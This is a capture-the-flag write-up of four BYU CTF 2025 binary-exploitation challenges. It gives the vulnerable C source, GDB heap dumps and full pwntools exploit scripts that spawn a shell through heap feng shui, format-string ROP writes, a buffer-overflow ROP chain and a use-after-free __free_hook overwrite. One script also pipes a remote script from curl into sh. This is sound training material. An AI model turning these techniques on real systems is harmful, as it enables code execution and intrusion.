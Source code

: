 ---
title: '[WRITE UP] - BYU CTF 2025'
description: 'Yet another CTF wrtite up'
image: '../../img/cover_photo_wup_imresizer.png'
date: 2025-05-26
tags: ['2025', 'PWN', 'WriteUp']
authors: ['kdot']
draft: false
pinned: false
---


## Minecraft Youtuber

### Challenge Information

<Challenge
  authors={["overllama"]}
  category="pwn"
  description="Oh boy, I hit a million subscribers on YouTube, what do I do now?"
  flag="byuctf{th3_3xpl01t_n4m3_1s_l1t3r4lly_gr00m1ng}"
>
</Challenge>

### Solution

<details id="src">
<summary>Souce code</summary>
<p>
```c title="minecraft.c"
#include <stdlib.h>
#include <stdio.h>
#include <time.h>
#include <unistd.h>

__attribute__((constructor)) void flush_buf() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

typedef struct {
    long uid;
    char username[8];
    long keycard;
} user_t;

typedef struct {
    long mfg_date;
    char first[8];
    char last[8];
} nametag_t;

long UID = 0x1;
char filename[] = "flag.txt";
user_t* curr_user = NULL;
nametag_t* curr_nametag = NULL;

void init() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}


void register_user() {
    printf("WELCOME!! We're so excited to have you here! Tell us your username / tag and we'll get you set up with access to the facilities!\n");
    curr_user = (user_t*)malloc(sizeof(user_t)); // 0x18 bytes
    curr_user->uid = UID++;
    printf("Please go ahead an type your username now: \n");
    read(0, curr_user->username, 8);
}

void log_out() {
    free(curr_user);
    curr_user = NULL;

    if (curr_nametag != NULL) {
        free(curr_nametag);
        curr_nametag = NULL;
    }
}

int print_menu() {
    int choice;
    printf("What would you like to do now?\n");
    printf("1. Register a new user\n");
    printf("2. Learn about the Time Keepers\n");
    printf("3. Collect gear\n");
    printf("4. Elevate to super user\n");
    printf("5. Change characters\n");
    printf("6. Leave\n");
    // 7 is try to free loki but it's not technically an option, you have to be rebellious to get there
    scanf("%d", &choice);
    if (choice < 1 || choice > 7) {
        printf("Invalid choice. You broke the simulation\n");
        return 0;
    }
    return choice;
}

int main(void) {
    init();
    srand(time(NULL)); int gear;
    printf("Hello! My name is Miss Minutes, and I'll be your helper here at the TVA!!\nHow about we get you oriented first!\nThe only rule is that we under no circumstances can free Loki... he's locked up for a reason!\n");

    int input = 1;
    while (input) {
        switch (input) {
            case 1: // register a new user
                register_user();
                break;
            case 2:
                printf("The Time Keepers are the three beings who created the TVA and the Sacred Timeline. They are powerful beings who exist at the end of time and are responsible for maintaining the flow of time.\n");
                break;
            case 3: // collect gear
                if (curr_user == NULL) {
                    printf("You must register a user first!\n");
                    break;
                }
                gear = rand() % 5 + 1;
                if (curr_nametag != NULL) {
                    free(curr_nametag);
                }
                switch (gear) {
                    case 1:
                        printf("You have received a Time Twister! This powerful device allows you to manipulate time and space.\n");
                        break;
                    case 2:
                        printf("You have received a Name Tag! Please input your first and last name:\n");
                        curr_nametag = (nametag_t*)malloc(sizeof(nametag_t));
                        curr_nametag->mfg_date = (long)time(NULL);
                        read(0, curr_nametag->first, 8);
                        read(0, curr_nametag->last, 8);
                        break;
                    case 3:
                        printf("You have received a Time Stick! This device allows you to reset the flow of time in a specific area.\n");
                        break;
                    case 4:
                        printf("You have received a Time Loop! This device allows you to trap someone in a time loop.\n");
                        break;
                    case 5:
                        printf("You have received a Time Bomb! This device allows you to create a temporal explosion.\n");
                        break;
                }
                break;
            case 4:
                if (curr_user == NULL) {
                    printf("You must register a user first!\n");
                    break;
                }
                if (curr_user->uid >= 0x600000) {
                    printf("Well, everything here checks out! Go ahead and take this key card!\n");
                    curr_user->keycard = 0x1337;
                } else {
                    printf("Unfortunately, it doesn't look like you have all the qualifications to get your own key card! Stay close to Miss Minutes and she should be able to get you anywhere you need to go...\n");
                }
                break;
            case 5:
                if (curr_user == NULL) {
                    printf("You must register a user first!\n");
                    break;
                }
                log_out();
                printf("You have been logged out.\n");
                printf(". "); sleep(1);
                printf(". "); sleep(1);
                printf(". \n"); sleep(1);
                register_user();
                break;
            case 6:
                input = 0;
                break;
            case 7:
                if (curr_user == NULL) {
                    printf("You must register a user first!\n");
                    break;
                }

                // Uninitialized memory read
                if (curr_user->keycard == 0x1337) {
                    printf("You have freed Loki! In gratitude, he offers you a flag!\n");
                    FILE* flag = fopen(filename, "r");
                    if (flag == NULL) {
                        printf("Flag file not found. Please contact an admin.\n");
                        return EXIT_FAILURE;
                    } else {
                        char ch;
                        while ((ch = fgetc(flag)) != EOF) {
                            printf("%c", ch);
                        }
                    }
                    fclose(flag);
                    exit(0);
                    break;
                } else {
                    printf("EMERGENCY EMERGENCY UNAUTHORIZED USER HAS TRIED TO FREE LOKI!\n");
                    printf("Time police rush to the room where you stand in shock. They rush you away, take your gear, and kick you back to your own timeline.\n");
                    log_out();
                    input = 0;
                    break;
                }
        }

        if (input != 0) {
            input = print_menu();
        }
    }
    return input;
}
```
</p>
</details>

Look at the code above, it pretty long. But we just need to focus on `case 7` where we can get the flag if we have the keycard. And there is the bug `Uninitialized data use` in the code. We can `fengshui` the heap to get the flag. What I do is just let the program run until it shows us `Tag`, then create a new nametage which `curr_nametag->last` is contain the value `0x1337`

```sh title="GDB"
0x555555559290  0x0000000000000000      0x0000000000000021      ........!.......
0x5555555592a0  0x0000000000000001      0x000000000a6e776b      ........kwn.....
0x5555555592b0  0x0000000000000000      0x0000000000000021      ........!.......
0x5555555592c0  0x000000006833e68f      0x000000000a6e776b      ..3h....kwn.....
0x5555555592d0  0x0000000000001337      0x0000000000020d31      7.......1.......         <-- Top chunk
```

You can see that value `0x1337` is in the top chunk, and when you free it it will be there, because malloc just free the chunk `0x20` (include metadata). Then just `register_user` and get the flag

```py title="exploit.py" collapse={1-36}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./minecraft', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
# init-gef-bata
brva 0x171C
brva 0x1462
brva 0x1739
brva 0x147C
brva 0x18B0
brva 0x171C
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, aslr=False)

# ==================== EXPLOIT ====================
p = start()

ru(b"username now: \n")
sl(b"kwn")

line = b""
while b"Tag" not in line:
    ru(b"Leave\n")
    sl(b"3")
    line = p.recvline()

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()

sl(b'kwn')
sl(p64(0x1337))

sl(b'5')
sla(b'now: \n', b'kwn')

ru(b"Leave\n")
sl(b"7")

interactive()
```
---
## GOAT

### Challenge Information

<Challenge
  authors={["Legoclones"]}
  category="pwn"
  description="To prevent excessive brute forcing for those experiencing a skissue, I made sure to add a PoW."
  flag="byuctf{n0w_y0u're_the_g0at!}"
>
</Challenge>

### Solution

There many things here but I think we just need to focus on the challenge `binary`

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _QWORD v4[2]; // [rsp+0h] [rbp-C0h] BYREF
  char s1[64]; // [rsp+10h] [rbp-B0h] BYREF
  char s[104]; // [rsp+50h] [rbp-70h] BYREF
  unsigned __int64 v7; // [rsp+B8h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  v4[0] = 1413566279LL;
  v4[1] = 0LL;
  snprintf(
    s,
    0x5FuLL,
    "Welcome to the %s simulator!\nLet's see if you're the %s...\nWhat's your name? ",
    (const char *)v4,
    (const char *)v4);
  printf(s);
  fgets(s1, 32, stdin);
  snprintf(s, 0x5FuLL, "Are you sure? You said:\n%s\n", s1);
  printf(s);
  fgets(s1, 16, stdin);
  if ( !strncmp(s1, "no", 2uLL) )
  {
    puts("\n?? Why would you lie to me about something so stupid?");
  }
  else
  {
    snprintf(s1, 0x3FuLL, "\nSorry, you're not the %s...", (const char *)v4);
    puts(s1);
  }
  return 0;
}
```

There is a `Format String Bug` here, so we can use that to get the shell. But the program will exit after that, so we need to make a infinite loop to keep the program running. After that leak the address and write our ROP chain to saved RIP using `Format String Bug`.

```py title="exploit.py" collapse={1-72}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep
import re

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./goat_patched', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
# init-gef-bata
# b *0x401278
b *0x4012B0
# b *0x40129F
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv)

def solve_pow():
    banner = ru(b"solution: ")
    log.debug(f"POW banner:\n{banner!r}")

    m = re.search(b"sh -s (s\\.[^\\s]+)", banner)
    if not m:
        raise ValueError("Fail")
    salt = m.group(1).decode()
    log.info(f"{salt}")

    cmd = f"curl -sSfL https://pwn.red/pow | sh -s {salt}"
    solution = check_output(["bash", "-lc", cmd]).strip()
    log.info(f"{solution!r}")

    sl(solution)

def fmt_w(addr, saved_rip):
    target1 = addr & 0xffff
    payload = f"%{target1-0x18}c%10$hn".encode()
    payload = payload.ljust(0x10, b"a")
    payload += p64(saved_rip)
    sl(payload)
    sl("A")

    target2 = (addr >> 16) & 0xffff
    payload = f"%{target2-0x18}c%10$hn".encode()
    payload = payload.ljust(0x10)
    payload += p64(saved_rip+2)
    sl(payload)
    sl("A")

    target3 = addr >> 32
    payload = f"%{target3-0x18}c%10$hn".encode()
    payload = payload.ljust(0x10, b"a")
    payload += p64(saved_rip+4)
    sl(payload)
    sl("A")

# ==================== EXPLOIT ====================
p = start()

solve_pow()

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()

payload = f"%{0x11f0-0x18}c%11$hn".encode() + b"|%31$p" + b"|%30$p"
payload = payload.ljust(0x18, b"a")
payload += p64(exe.got.puts)
sl(payload)
ru(b"|")
address = rl()[:-1].split(b"|")
print(address)
libc.address = int(address[0], 16) - 0x2A1CA
stack = int(address[1][:14], 16)
saved_rip = stack - 0x98

success('libc base @ %#x', libc.address)
success('stack leak @ %#x', stack)
success('saved rip @ %#x', saved_rip)

rop = ROP(libc)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = pop_rdi + 1
binsh = next(libc.search(b"/bin/sh\x00"))

fmt_w(pop_rdi, saved_rip)
fmt_w(binsh, saved_rip+8)
fmt_w(ret, saved_rip+16)
fmt_w(libc.sym.system, saved_rip + 24)

payload = f"%{0x133c-0x18}c%10$hn".encode()
payload = payload.ljust(0x10)
payload += p64(exe.got.puts)
sl(payload)
sl("A")

interactive()
```
---
## Game of Yap

### Challenge Information
<Challenge
  authors={["deltabluejay"]}
  category="pwn"
  description="yap yap yap."
  flag="byuctf{heres_your_yap_plus_certification_c13abe01}"
>
</Challenge>

### Solution

The binary have Buffer Overflow bug and we can use that to call the function that give us a binary address. After that use `0x1243: mov rdi, rsi ; ret ;` to control the first argument of printf which can able us to perform some `Format String` attack

```py title="exploit.py" collapse={1-31}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

# context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./game-of-yap_patched', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
# init-gef-bata
brva 0x0123A
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv)

# ==================== EXPLOIT ====================
p = start()

offset = 0x108

payload = b'A'*(offset) + p8(0x80)

sleep(0.5)
sa(b'chance...\n',payload)
exe.address = hexleak(rl()[:-1]) - 0x1210

success(b'pie base @ %#x', exe.address)

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()


mov_rdi_rsi = exe.address + 0x1243

payload = b'%27$p'.ljust(offset, b'\0') + p64(mov_rdi_rsi) + p64(exe.plt.printf) + p64(exe.sym.play)
sleep(0.5)
sa(b'try...\n', payload)

libc.address = hexleak(rb(16)) - 0x2a28b
success('libc base @ %#x', libc.address)

rop = ROP(libc)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = pop_rdi + 1

payload = b'A'*offset + p64(pop_rdi) + p64(next(libc.search(b'/bin/sh\0')))+ p64(libc.sym.system)

sleep(0.5)
s(payload)

interactive()
```
---
## TCL

### Challenge Information

<Challenge
  authors={["Legoclones"]}
  category="pwn"
  description="I created my own Tiny Config Language and even a little parser for it - you should try it out!"
  flag="byuctf{ok4y_y34h_th4t_d3fin1t3ly_suck3d}"
>
</Challenge>

### Solution

This challenge was 1 solved during CTF. And I couldn't solve it during that time, but luckily, my friend was the one who did first blood on this challenge, and after the CTF he told me there was a way without using Race Conditions. Shout out to @Lieu

<details id="src">
<summary>Souce code</summary>
<p>
```c title="tcl.c"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdbool.h>
#include <ctype.h>
#include <pthread.h>
#include <unistd.h>

enum {
    TYPE_FLOAT = 0,
    TYPE_INT,
    TYPE_STRING,
    TYPE_BOOL,
};

struct str_object {
    char *value;
    unsigned int type;
    unsigned int refcount;
};

struct int_object {
    unsigned long value;
    unsigned int type;
    unsigned int refcount;
};

struct float_object {
    double value;
    unsigned int type;
    unsigned int refcount;
};

struct bool_object {
    unsigned long value;
    unsigned int type;
    unsigned int refcount;
};

void* objects[100];

__attribute__((constructor)) void flush_buf() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

void win() {
    system("/bin/sh");
    exit(0);
}

int create_string_obj(char *value) {
    struct str_object* obj = (struct str_object*)objects[0];
    unsigned int i = 0;

    // if the object already exists, just increase the refcount
    while (obj != NULL) {
        if ((obj->type == TYPE_STRING) && (strcmp(obj->value, value) == 0)) {
            printf("Added refcount to %s\n", obj->value);
            obj->refcount++;
            return 0;
        }
        if (i >= 99) {
            puts("object array is full");
            return -1;
        }
        i++;
        obj = (struct str_object*)objects[i];
    }

    // otherwise, create a new object
    obj = (struct str_object*)malloc(sizeof(struct str_object));
    if (obj == NULL) {
        puts("malloc failed");
        exit(1);
    }
    obj->value = strdup(value);
    if (obj->value == NULL) {
        puts("strdup failed");
        exit(1);
    }
    obj->type = TYPE_STRING;
    obj->refcount = 1;
    objects[i] = obj;
    return 0;
}

int create_int_obj(unsigned long value) {
    struct int_object* obj = (struct int_object*)objects[0];
    unsigned int i = 0;

    // if the object already exists, just increase the refcount
    while (obj != NULL) {
        if ((obj->type == TYPE_INT) && (obj->value == value)) {
            printf("Added refcount to %lu\n", obj->value);
            obj->refcount++;
            return 0;
        }
        if (i >= 99) {
            puts("object array is full");
            return -1;
        }
        i++;
        obj = (struct int_object*)objects[i];
    }

    // otherwise, create a new object
    obj = (struct int_object*)malloc(sizeof(struct int_object));
    if (obj == NULL) {
        puts("malloc failed");
        exit(1);
    }
    obj->value = value;
    obj->type = TYPE_INT;
    obj->refcount = 1;
    objects[i] = obj;
    return 0;
}

int create_float_obj(double value) {
    struct float_object* obj = (struct float_object*)objects[0];
    unsigned int i = 0;

    // if the object already exists, just increase the refcount
    while (obj != NULL) {
        if ((obj->type == TYPE_FLOAT) && (obj->value == value)) {
            printf("Added refcount to %lf\n", obj->value);
            obj->refcount++;
            return 0;
        }
        if (i >= 99) {
            puts("object array is full");
            return -1;
        }
        i++;
        obj = (struct float_object*)objects[i];
    }

    // otherwise, create a new object
    obj = (struct float_object*)malloc(sizeof(struct float_object));
    if (obj == NULL) {
        puts("malloc failed");
        exit(1);
    }
    obj->value = value;
    obj->type = TYPE_FLOAT;
    obj->refcount = 1;
    objects[i] = obj;
    return 0;
}

int create_bool_obj(unsigned long value) {
    struct bool_object* obj = (struct bool_object*)objects[0];
    unsigned int i = 0;

    // if the object already exists, just increase the refcount
    while (obj != NULL) {
        if ((obj->type == TYPE_BOOL) && (obj->value == value)) {
            printf("Added refcount to %lu\n", obj->value);
            obj->refcount++;
            return 0;
        }
        if (i >= 99) {
            puts("object array is full");
            return -1;
        }
        i++;
        obj = (struct bool_object*)objects[i];
    }

    // otherwise, create a new object
    obj = (struct bool_object*)malloc(sizeof(struct bool_object));
    if (obj == NULL) {
        puts("malloc failed");
        exit(1);
    }
    obj->value = value;
    obj->type = TYPE_BOOL;
    obj->refcount = 1;
    objects[i] = obj;
    return 0;
}

void clear_objects() {
    for (unsigned int i = 0; i < 100; i++) {
        if (objects[i] != NULL) {
            // set refcount to 0 for the garbage collector to free
            struct str_object* obj = (struct str_object*)objects[i];
            obj->refcount = 0;
        }
    }
}

void parse_tcl() {
    char buf[0x100];
    bool valid = true;
    bool started = false;

    while (1) {
        // clear the buffer
        memset(buf, 0, sizeof(buf));

        // we use fgets because it breaks on \n, which means the config line is done
        fgets(buf, sizeof(buf), stdin);

        // remove the newline character
        size_t len = strlen(buf);
        if (len > 0 && buf[len - 1] == '\n') {
            buf[len - 1] = '\0';
        }
        // check for empty line
        if (strlen(buf) == 0) {
            continue;
        }

        if (started == false) {
            // check for the start of the config
            if (strcmp(buf, "#START") != 0) {
                puts("You need to start with #START");
                continue;
            }
            started = true;
            continue;
        }

        if (strcmp(buf, "#END") == 0) {
            break;
        }

        // check for ' = '
        char * delim = strstr(buf, " = ");
        if (delim == NULL) {
            puts("Invalid line, no ' = ' found");
            valid = false;
            continue;
        }
        *delim = '\0'; // replace ' = ' with '\0' to split the string
        delim += 3; // move past the ' = '
        // at this point, buf contains the key name and delim points to the value

        // ensure first character is not a digit
        if (isdigit(buf[0])) {
            puts("Key name cannot start with a digit");
            valid = false;
            continue;
        }

        // check character set in keyname
        for (char *p = buf; *p != '\0'; p++) {
            if (!isalnum(*p) && *p != '_') {
                puts("Key name can only contain alphanumeric characters and underscores");
                valid = false;
                continue;
            }
        }

        // create an object to store key name
        if (create_string_obj(buf) != 0) {
            puts("create_string_obj failed");
            valid = false;
            continue;
        }

        // CHECK THE VALUE NOW

        // inspecting the first character of the value will tell us what type it is
        if (isdigit(delim[0])) {
            // it's an int or float
            char *endptr;
            unsigned long value = strtoul(delim, &endptr, 10);
            if (*endptr == '.') {
                // it's a float
                double fvalue = strtod(delim, NULL);
                if (create_float_obj(fvalue) != 0) {
                    puts("create_float_obj failed");
                    valid = false;
                    continue;
                }
            } else {
                // it's an int
                if (create_int_obj(value) != 0) {
                    puts("create_int_obj failed");
                    valid = false;
                    continue;
                }
            }
        }

        else if (delim[0] == 't' || delim[0] == 'f') {
            if (strcmp(delim, "true") != 0 && strcmp(delim, "false") != 0) {
                puts("Invalid boolean value");
                valid = false;
                continue;
            }

            // it's a bool
            unsigned long value = (delim[0] == 't') ? 1 : 0;
            if (create_bool_obj(value) != 0) {
                puts("create_bool_obj failed");
                valid = false;
                continue;
            }
        }

        else if (delim[0] == '"') {
            // it's a string
            delim++; // move past the opening quote
            char *end = strchr(delim, '"');
            if (end == NULL) {
                puts("Invalid string value, no closing quote found");
                valid = false;
                continue;
            }
            *end = '\0'; // replace closing quote with null terminator
            if (create_string_obj(delim) != 0) {
                puts("create_string_obj failed");
                valid = false;
                continue;
            }
        }

        else {
            // invalid value type
            puts("Invalid value type");
            valid = false;
            continue;
        }
    }

    // check if the config is valid
    if (valid) {
        puts("Config is valid");
    } else {
        puts("Config is invalid");
    }

    // set the refcount of all objects to 0
    clear_objects();
}

void gc() {
    unsigned int indexes[100];
    unsigned int count = 0;

    while (1) {
        memset(indexes, 0, sizeof(indexes));
        count = 0;
        sleep(5);

        // store the indexes of all objects with refcount 0
        for (unsigned int i = 0; i < 100; i++) {
            if (objects[i] != NULL) {
                struct str_object* obj = (struct str_object*)objects[i];
                if (obj->refcount == 0) {
                    indexes[count++] = i;
                }
            }
        }

        // free them
        for (unsigned int i = 0; i < count; i++) {
            struct str_object* obj = (struct str_object*)objects[indexes[i]];
            if (obj != NULL) {
                if (obj->type == TYPE_STRING)
                    free(obj->value);
                free(obj);         // Use-After-Free
                usleep(5 * 1000); // sleep for 5 milliseconds - we don't want to hog the CPU!
            }
        }

        // set the object pointer to NULL
        for (unsigned int i = 0; i < count; i++) {
            struct str_object* obj = (struct str_object*)objects[indexes[i]];
            // double check refcount is 0 before setting to NULL
            if (obj != NULL && obj->refcount == 0) {
                objects[indexes[i]] = NULL;
            }
        }
    }
}

int main() {
    alarm(60); // set a timeout for the program
    printf("%p\n", &alarm);

    // spawn garbage collector
    pthread_t tid;
    pthread_create(&tid, NULL, (void*)gc, NULL);

    while (1) {
        puts("Enter your TCL file contents below:");
        puts("=========================================");
        parse_tcl();
    }

    return 0;
}
```
</p>
</details>

The code is quite long but we will pay attention to some key points as follows:
- There is `Use-After-Free` in the `gc` function, this function will run every `5s` and it will free any objects that have `refcount == 0`
- In the `create_string_obj` function, `strdup` will let us customize the size of a malloc chunk through the length of the string

With the idea of ​​triggering `malloc_consolidate()` to move the chunks in fastbin to unsortedbin, from a singly linked list to a doubly linked list, we will be able to cause Double Free. Below is a demo program for that

```c title="demo.c"
// gcc -o test test.c -g -no-pie
#include <stdio.h>
#include <stdlib.h>

void main()
{
    void *a[10], *b[10];

    for (int i = 0; i < 2; i++)
        a[i] = malloc(0x18);

    for (int i = 2; i < 10; i++)
    {
        a[i] = malloc(0x18);
        b[i] = malloc(0x88);
    }

    for (int i = 0; i < 2; i++)
        free(a[i]);

    for (int i = 2; i < 10; i++)
    {
        free(b[i]);
        free(a[i]);
    }
}
```
And once we free all the chunk we have, check `bins` again and we can see some speical things

```sh title="GDB"
pwndbg> bins
tcachebins
0x20 [  7]: 0x4055a0 —▸ 0x4054f0 —▸ 0x405440 —▸ 0x405390 —▸ 0x4052e0 —▸ 0x4052c0 —▸ 0x4052a0 ◂— 0
0x90 [  7]: 0x405720 —▸ 0x405670 —▸ 0x4055c0 —▸ 0x405510 —▸ 0x405460 —▸ 0x4053b0 —▸ 0x405300 ◂— 0
fastbins
0x20: 0x4057a0 ◂— 0
unsortedbin
all: 0x405640 —▸ 0x4056f0 —▸ 0x7ffff7f9cce0 (main_arena+96) ◂— 0x405640 /* '@V@' */
smallbins
empty
largebins
empty
```
This is done by [this code](https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L4648-L4674). When the `0x80` chunk consolidates with the top chunk, it continues to check that chunk for the new size with `FASTBIN_CONSOLIDATION_THRESHOLD` and to make sure that this chunk size is larger, `malloc_consolidate()` will be called. With that in mind, here is my exploit.

```py title="exploit.py" collapse={1-41, 65-112}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./tcl_patched', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
# init-gef-bata
set resolve-heap-via-heuristic force
set follow-fork-mode parent
b *0x40174F
b *0x4018AC
b *0x400EFA
b *0x400DB3
b *0x400D86
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("0", 5004)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, aslr=False)

def debug():
    gdb.attach(p, gdbscript=gdbscript)
    pause()

# ==================== EXPLOIT ====================
p = start()

libc.address = hexleak(rl()[:-1]) - libc.sym.alarm
success('libc base @ %#x', libc.address)

ru(b'=========================================\n')

sl(b'#START')
for i in range(8):
    chunk = str(i).encode() * 0x87
    sl(b'A = "' + chunk + b'"')
sl(b'#END')

sleep(6)

sl(b'#START')
payload = b"B" * 0x27 + b' = "' + b'8' + b'"'
sl(payload)
sl(b"#END")

sleep(6)

'''
0x4f297 execve("/bin/sh", rsp+0x40, environ)
+----------+-----------------------------------------+
| Result   | Constraint                              |
+==========+=========================================+
| SAT      | address rsp+0x50 is writable            |
+----------+-----------------------------------------+
| SAT      | rsp & 0xf == 0                          |
+----------+-----------------------------------------+
| UNKNOWN  | {"sh", "-c", r12, NULL} is a valid argv |
+----------+-----------------------------------------+

0x4f29e execve("/bin/sh", rsp+0x40, environ)
+----------+-------------------------------------------------------+
| Result   | Constraint                                            |
+==========+=======================================================+
| SAT      | address rsp+0x50 is writable                          |
+----------+-------------------------------------------------------+
| SAT      | rsp & 0xf == 0                                        |
+----------+-------------------------------------------------------+
| SAT      | rcx == NULL || {rcx, "-c", r12, NULL} is a valid argv |
+----------+-------------------------------------------------------+

0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
+----------+------------------------------------------------------+
| Result   | Constraint                                           |
+==========+======================================================+
| SAT      | address rsp+0x50 is writable                         |
+----------+------------------------------------------------------+
| SAT      | rsp & 0xf == 0                                       |
+----------+------------------------------------------------------+
| SAT      | rcx == NULL || {rcx, rax, r12, NULL} is a valid argv |
+----------+------------------------------------------------------+

0x4f302 execve("/bin/sh", rsp+0x40, environ)
+----------+---------------------------------------------------------------------------------------------+
| Result   | Constraint                                                                                  |
+==========+=============================================================================================+
| UNKNOWN  | [rsp+0x40] == NULL || {[rsp+0x40], [rsp+0x48], [rsp+0x50], [rsp+0x58], ...} is a valid argv |
+----------+---------------------------------------------------------------------------------------------+

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
+----------+---------------------------------------------------------------------------------------------+
| Result   | Constraint                                                                                  |
+==========+=============================================================================================+
| SAT      | [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv |
+----------+---------------------------------------------------------------------------------------------+
'''

sl(b'#START')
payload = b"C" * 0x27 + b' = "' + p64(libc.sym.__free_hook-8)[:6] + b'"'
sl(payload)

payload = b"C" * 0x27 + b' = "' + b"Y" * 0x27 + b'"'
sl(payload)

payload = b"C" * 0x27 + b' = "' + b"A" * 8 + p64(libc.address + 0x10a2fc)[:6] + b'"'
sl(payload)
sl(b"#END")
sleep(6)

interactive()
```

